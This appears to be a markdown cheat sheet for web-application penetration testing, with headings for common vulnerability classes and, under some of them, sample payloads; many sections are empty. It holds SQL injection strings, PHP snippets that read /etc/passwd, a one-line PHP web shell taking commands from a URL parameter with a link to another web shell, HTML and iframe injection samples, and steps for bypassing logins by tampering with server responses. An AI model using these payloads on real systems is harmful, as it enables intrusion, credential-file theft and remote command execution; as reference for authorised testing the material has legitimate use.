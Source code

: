 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
## Error Based SQL Injection:

## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("cat /etc/passwd");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```

```
## File Upload Bypass:
```
```
## Session Hijacking:
```

```
### Session Fixation in The Application
### Application is Vulnerable to Forceful Browsing
### Insecure Direct Object Reference
## URL Redirection in the application:
## Reflected Cross Site Scripting Attack
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">Test</a>
```
## Iframe Injection:
```
<iframe src="https://https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF)
## Restricted Functionality Access in the Application
### Parameter Manipulation
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
